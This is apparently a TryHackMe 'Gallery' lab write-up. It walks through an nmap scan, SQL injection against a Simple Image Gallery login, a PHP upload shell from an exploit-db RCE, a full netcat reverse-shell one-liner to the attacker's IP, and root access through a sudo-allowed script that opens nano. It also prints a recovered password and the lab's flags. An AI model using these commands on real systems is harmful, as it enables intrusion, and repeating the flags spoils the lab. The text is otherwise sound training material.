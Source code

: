 # Gallery THM writeup
<a href = "https://tryhackme.com/room/gallery666"> https://tryhackme.com/room/gallery666 </a>



<h3>1. Question: How many ports are open?</h3>  <br>
Lets start with an nmap scan to get the number of open ports and also i may get a valueable port thats open in the server!
<br>

```
$ nmap 10.10.4.212          
Starting Nmap 7.95 ( https://nmap.org ) at 2025-10-17 10:12 EDT
Nmap scan report for 10.10.4.212
Host is up (0.056s latency).
Not shown: 997 closed tcp ports (reset)
PORT     STATE SERVICE
22/tcp   open  ssh
80/tcp   open  http
8080/tcp open  http-proxy

Nmap done: 1 IP address (1 host up) scanned in 1.17 seconds
```

The server have 3 open ports, now i got the answer to the first question, **3**

<hr>

<h3>2. Question: What's the name of the CMS?</h3>
<br>
Opening the website on port 80, i get an apache ubuntu default page, this doesn't help much.. 
but i noticed that there is another web server running on port 8080! Lets check it!

Now the website provided us a login page and with the name of the CMS! **Simple Image Gallery**

<hr>

<h3>3. Question: What's the hash password of the admin user? </h3>
When sending a login request, i noticed that i get a suspicious response:

```
{"status":"incorrect","last_qry":"SELECT * from users where username = 'admin' and password = md5('test') "}
```
Login page maybe got some SQL injection vulnerability!
Running sqlmap i can see it detected that the username paramater is vulnerable to an sql injection attack, now i could easily get the admin's passwords hash.
After some time, sqlmap found the hash of the password
```
$ sqlmap -r req.txt --dump
....
+----------------------------------+
| password                         |
+----------------------------------+
| a228b12a08b6527e7978cbe5d914531c |
+----------------------------------+
```

<hr>
<h3>4. Question: What's the user flag?</h3>
To get the user flag, i have to gain a shell on the system.
<br>
I searched for the CMS name and found a possible RCE exploit on exploit-db:
<a href = "https://www.exploit-db.com/exploits/50214"> https://www.exploit-db.com/exploits/50214 </a> <br>
I downloaded this to my machine and i ran it. <br><br>
The exploit uploaded a file to the server, which contained a ?cmd= paramter<br>

Run netcat in listener mode, so the remote host could connect to my Kali:<br>
```
ncat -nlvp 8001
```

I pasted my netcat script in the cmd parameter and i successfully got a more stable netcat reverse shell!
```
http://10.10.191.82/gallery/uploads/1760716080_TagogdgiydphbhaodrhLetta.php?cmd=rm+%2Ftmp%2Ff%3Bmkfifo+%2Ftmp%2Ff%3Bcat+%2Ftmp%2Ff%7Cbash+-i+2%3E%261%7Cnc+10.9.3.133+8001+%3E%2Ftmp%2Ff
```

<br>
I got shell as www-data, and found the first flag in mike's home directory, but only the user "mike" can read the user.txt, so i have to find a way to be mike!

```
www-data@ip-10-10-191-82:/home/mike$ ls -l
ls -l
total 12
drwx------ 2 mike mike 4096 May 24  2021 documents
drwx------ 2 mike mike 4096 May 24  2021 images
-rwx------ 1 mike mike   32 May 14  2021 user.txt
```

I downloaded linpeas, and ran it. While i was checking the output i noticed that when mike tried to use the command "sudo -l"
he did a typo, and revealed his password in the bash history
```
╔══════════╣ Searching passwords in history files
/var/backups/mike_home_backup/.bash_history:sudo -lb3stpassw0rdbr0xx
/var/backups/mike_home_backup/.bash_history:sudo -l
```

Now i could login to his account with mikes password: **"b3stpassw0rdbr0xx"** and read the user.txt!
```
mike@ip-10-10-191-82:~$ cat user.txt
THM{af05cd30bfed67849befd546ef}
```

<hr>

<h3>5. Question: What's the root flag?</h3>
I ran "sudo -l" and i noticed there is a program that i can run as root without password

```
mike@ip-10-10-191-82:/opt$ sudo -l
Matching Defaults entries for mike on ip-10-10-191-82:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User mike may run the following commands on ip-10-10-191-82:
    (root) NOPASSWD: /bin/bash /opt/rootkit.sh
```
<br><br>
What's inside of opt/rootkit.sh?
```
mike@ip-10-10-191-82:/opt$ cat rootkit.sh
#!/bin/bash

read -e -p "Would you like to versioncheck, update, list or read the report ? " ans;

# Execute your choice
case $ans in
    versioncheck)
        /usr/bin/rkhunter --versioncheck ;;
    update)
        /usr/bin/rkhunter --update;;
    list)
        /usr/bin/rkhunter --list;;
    read)
        /bin/nano /root/report.txt;;
    *)
        exit;;
esac
```
Aha, so if i run it as root, and write "read" in the input box (which will the sh script provide) it will open a nano UI as root!<br>
So basically if you have nano run as root, you can read any file on the system, and if i go with the /root/root.txt
it will paste the root flag in to the nano editor
<br>
<br>
(CTRL + k)
<br>
<img src = "insert.png">
<br>
<img src = "rootflag.png">
